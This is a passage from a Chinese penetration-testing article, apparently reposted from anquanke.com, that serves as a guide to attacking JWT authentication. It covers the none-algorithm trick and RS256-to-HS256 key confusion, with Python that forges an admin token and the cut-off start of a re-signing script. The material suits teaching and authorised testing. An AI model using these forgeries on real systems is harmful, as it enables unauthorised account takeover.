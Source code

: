 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [www.anquanke.com](https://www.anquanke.com/post/id/225947)

[![](https://p3.ssl.qhimg.com/t01c03bc7ff7bd694cf.jpg)](https://p3.ssl.qhimg.com/t01c03bc7ff7bd694cf.jpg)

> 最近工作中测试一款客户端 exe 程序，web 框架基于 CEF，认证用的是 jwt。说实话 jwt 这个东西实际运用真的很少，前几年完整撸过一次，结果这次又碰到了就基本忘光了之前的测试过程和方向，于是又重新学习，在查阅了大量的国内以及国外文献后，经过大量的代码编写以及测试，写下此篇攻击指南

可以很负责任的说，目前针对 jwt 攻击测试的方案

有且仅有以下几种：

*   **重置空加密算法**
*   **非对称加密向下降级为对称加密**
*   **暴力破解密钥**
*   **篡改 jwt header，kid 指定攻击**

JWT 在线解析地址：[https://jwt.io/](https://jwt.io/)

重置空加密算法
-------

如图，当前 jwt 指定的 alg 为 HS256 算法

[![](https://p0.ssl.qhimg.com/t01d862e4e8426de2ce.png)](https://p0.ssl.qhimg.com/t01d862e4e8426de2ce.png)

将其修改为 none，然后输出（如果没有 jwt 模块，需要 pip install pyjwt 一下）

```
import jwt

print(jwt.encode({"userName":"admin","userRoot":1001}, key="", algorithm="none"))
```

[![](https://p1.ssl.qhimg.com/t01fe6bb93356228657.png)](https://p1.ssl.qhimg.com/t01fe6bb93356228657.png)

删掉最后的 **“.”** ，然后带入原有的数据包进行发包测试，看 server 端是否接受 none 算法，从而绕过了算法签名。

非对称加密向下降级为对称加密
--------------

现在大多数应用使用的算法方案都采用 RSA 非对称加密，server 端保存私钥，用来签发 jwt，对传回来的 jwt 使用公钥解密验证。

碰到这种情况，我们可以修改 alg 为 HS256 对称加密算法，然后使用我们可以获取到的公钥作为 key 进行签名加密，这样一来，当我们将 jwt 传给 server 端的时候，server 端因为默认使用的是公钥解密，而算法为修改后的 HS256 对称加密算法， 所以肯定可以正常解密解析，从而绕过了算法限制。

当 server 端严格指定只允许使用 HMAC 或者 RSA 算法其中一种时候，那这种攻击手段是没有效果的。

附上降级转型的 python 代码：

```
import jwt
import sys
import re
import argparse


class HMACAlgorithm(jwt.algorithms.HMACAlgorithm):
    def prepare_key(self, key):
        key = jwt.utils.force_bytes(key)
        return key

jwt.api_jwt._jwt_global_obj._algorithms['HS256'] = \
        HMACAlgorithm(HMACAlgorithm.SHA256)

parser = argparse.ArgumentParser(
        formatter_class=argparse.ArgumentDefaultsHelpFormatter,
        description='''Re-sign a JWT with a public key,
        changing its type from RS265 to HS256.''')
```